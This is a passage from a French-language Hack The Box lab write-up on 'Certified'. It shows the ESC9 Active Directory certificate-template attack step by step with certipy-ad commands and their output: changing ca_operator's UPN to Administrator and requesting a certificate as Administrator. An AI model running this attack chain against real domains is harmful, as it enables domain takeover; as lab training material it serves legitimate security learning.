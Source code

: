 $ cat 20250313205721_Certipy.txt
<...>
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
<...>
 [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
<...>
{{< /highlight >}}

En utilisant le chemin d'attaque figurant sur [thehacker.recipes](https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc9-no-security-extension) pour ESC9, nous pouvons compromettre le compte administrateur du domaine.

Nous possédons déjà le NT hash de *ca_operator* donc nous pouvons changer son attribut ```userPrincipalName``` pour Administrator.
{{< highlight go "hl_lines=1" >}}
$ certipy-ad account update -username "management_svc@certified.htb" -hashes a<...>4 -user ca_operator -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
{{< /highlight >}}


Ensuite, nous pouvons demander un certificat d'authentification en tant que *ca_operator* en utilisant le template vulnérable.\
Les valeurs de ca et template peuvent être trouvées dans le .txt généré ultérieurement.
{{< highlight go "hl_lines=1 11" >}}
$ cat 20250313205721_Certipy.txt
<...>
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
<...>


$ certipy-ad req -username "ca_operator@certified.htb" -hashes b<...>2 -target "10.10.11.41" -ca 'certified-DC01-CA' -template 'CertifiedAuthentication'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 7
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
{{< /highlight >}}


Dernièrement, nous pouvons rechanger le ```userPrincipalName``` *ca_operator* pour lui même et ensuite obtenir le NT hash d'Administrator en utilisant le fichier administrator.pfx généré.
{{< highlight go "hl_lines=1 9" >}}
$ certipy-ad account update -username "management_svc@certified.htb" -hashes a<...>4 -user ca_operator -upn "ca_operator@certified.htb" -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)
